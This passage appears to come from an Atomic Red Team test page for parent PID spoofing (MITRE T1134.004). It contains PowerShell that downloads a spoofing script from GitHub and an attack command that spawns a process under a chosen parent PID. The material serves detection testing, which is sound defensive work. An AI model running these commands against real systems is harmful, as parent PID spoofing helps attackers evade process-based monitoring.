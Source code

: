 ```powershell
New-Item -Type Directory (split-path "$PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1134.004/src/PPID-Spoof.ps1" -OutFile "$PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1"
```




<br/>
<br/>

## Atomic Test #2 - Parent PID Spoofing - Spawn from Current Process
Spawns a powershell.exe process as a child of the current process.

**Supported Platforms:** Windows


**auto_generated_guid:** 14920ebd-1d61-491a-85e0-fe98efe37f25





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | File path or name of process to spawn | path | $Env:windir&#92;System32&#92;WindowsPowerShell&#92;v1.0&#92;powershell.exe|
| parent_pid | PID of process to spawn from | string | $PID|
| command_line | Specified command line to use | string | -Command Start-Sleep 10|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-ATHProcessUnderSpecificParent -FilePath #{file_path} -CommandLine '#{command_line}' -ParentId #{parent_pid}
```




#### Dependencies:  Run with `powershell`!
##### Description: The AtomicTestHarnesses module must be installed and Start-ATHProcessUnderSpecificParent must be exported in the module.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name AtomicTestHarnesses -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Start-ATHProcessUnderSpecificParent']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AtomicTestHarnesses -Scope CurrentUser -Force
```
